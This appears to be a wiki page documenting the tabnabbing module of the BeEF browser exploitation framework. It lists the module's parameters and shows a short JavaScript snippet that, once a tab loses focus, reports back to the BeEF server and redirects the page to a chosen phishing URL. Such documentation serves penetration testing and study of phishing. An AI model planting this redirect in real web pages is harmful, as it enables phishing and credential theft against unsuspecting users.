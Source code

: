 ##Summary
* **Objective**: This module redirects to the specified URL after the tab has been inactive for a specified amount of time.
* **Authors**: bcoles
* **Browsers**: 1ll
* **Parameters** :
  * **URL** : URL for the redirection
  * **Wait** : Time before redirecting (in minutes)
* [Code](https://github.com/beefproject/beef/tree/master/modules/social_engineering/tabnabbing)

##Internal Working 

Internal workig is pretty easy : when the tab loose focus, it starts a timer. When the timer ends the browser is redirected to the given URL :

```javascript
window.onblur = function() {
    begin_countdown();
}

window.onfocus = function() {
    clearTimeout(tabnab_timer);
}

begin_countdown = function() {
    tabnab_timer = setTimeout(function() { beef.net.send('<%= @command_url %>', <%= @command_id %>, 'tabnab=redirected'); window.location = url; }, wait);
}
```

## Screenshots

[[Images/module-tabnabbing1.png|align=center]]

## Feedback

* One improvement may be to replace the redirection by a 100% iframe.
* It should be noticed that the time given is in minute which may be long regarding average of web sessions

## References
* "Tabnabbing: A New Type of Phishing Attack":http://www.azarask.in/blog/post/a-new-type-of-phishing-attack/ by Aza Raskin